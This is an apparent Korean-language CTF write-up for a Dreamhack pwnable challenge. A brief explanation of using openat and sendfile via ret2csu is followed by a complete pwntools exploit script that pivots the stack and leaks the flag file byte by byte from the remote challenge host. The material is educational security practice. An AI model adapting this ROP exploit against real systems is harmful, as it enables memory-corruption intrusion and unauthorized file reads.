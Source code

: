 `openat`이랑 `sendfile` 쓰면 된다. 필자는 `sigreturn` 쓰는 게 너무 귀찮고 왠지 안 써도 될 거 같아서 그냥 진행했다. 다른 건 다 문제가 없었는데 `sendfile`의 네 번째 인자(`rcx`)를 조작할 수 없는 게 문제였다. `혹시 어떤 값이 들어있지 않을까?`라고 믿고 해봤는데 1바이트씩 출력되었다. 그래서 offset 조절하면서 읽어왔다. `rcx`가 0이었으면 `sigreturn` 썼어야 했는데 매우 다행이었다.

# exploit

```python
from pwn import *
from time import *

context.terminal = ['tmux', 'splitw', '-h']
#context.log_level = 'debug'

flag = b""
for i in range(0x30):
    #p = process('./chall')
    p = remote('host3.dreamhack.games', 23054)
    e = ELF('./chall')
    bss = e.bss() + 0x500
    csu1 = 0x40145A
    csu2 = 0x401440
    leave_ret = 0x00000000004013b5
    syscall = 0x00000000004013f5
    pop_rbp = 0x000000000040119d
    ret = 0x40101a

    payload = b'a' * 0x10 + p64(bss) + p64(0x4013d3) + p64(bss) + p64(leave_ret)
    p.send(payload)

    sleep(0.5)
    payload = b'./flag\x00\x00' + p64(syscall) + p64(ret)
    payload += p64(csu1) + p64(0) + p64(1) + p64(-100 & ((1 << 64) - 1)) + p64(bss - 0x10) + p64(0) + p64(bss - 0x8) + p64(csu2)
    payload += p64(csu1) + p64(0) + p64(bss) + p64(1) + p64(5) + p64(bss - 0x10) + p64(bss - 8) + p64(0x4013d3) + p64(bss) + p64(leave_ret)
    payload = payload.ljust(0x101, b'\x00')
    p.send(payload)

    sleep(0.5)
    payload = p64(i) + p64(syscall) + p64(ret) + p64(csu2) + p64(ret)
    p.send(payload)
    try:
        flag += p.recvn(1)
    except:
        p.close()
        break
    print(flag.decode())
    p.close()
print(flag.decode())
```
